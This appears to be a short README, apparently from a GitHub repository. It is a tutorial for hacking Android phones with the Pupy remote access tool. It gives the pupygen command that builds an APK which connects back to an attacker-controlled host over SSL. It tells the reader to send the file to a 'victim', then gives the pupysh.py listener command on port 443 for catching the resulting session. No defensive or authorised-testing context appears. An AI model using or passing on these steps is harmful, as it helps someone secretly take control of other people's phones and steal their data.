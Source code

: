 # HACK-ANDROID-BY-RAT-PUPY
HACK ANDROID BY NEW RAT (PUPY SHELL)

First step you need installed pupy shell in this link:
```
https://github.com/Faral-Ghaemi/pupy
```

For hack by pupy you must find your wan ip address. for do this go to google and search "my ip".

you need a open port & you can see this tutorial https://github.com/Faral-Ghaemi/Hack-without-port-forwarding for do that.

so open the terminal in the pupy/pupy and type this command:
```
./pupygen -f apk -o test.apk connect --host 192.2.2.2 --transport ssl
```
and now you can see test.apk in pupy/pupy 

now send rat(test.apk) to victim and wait for him.

so now we created rat and we have to listening this port:
open terminal in pupy/pupy and type: 
```
./pupysh.py -p 443
```
if your victim install the RAT open the session.

##GOOD LUCK

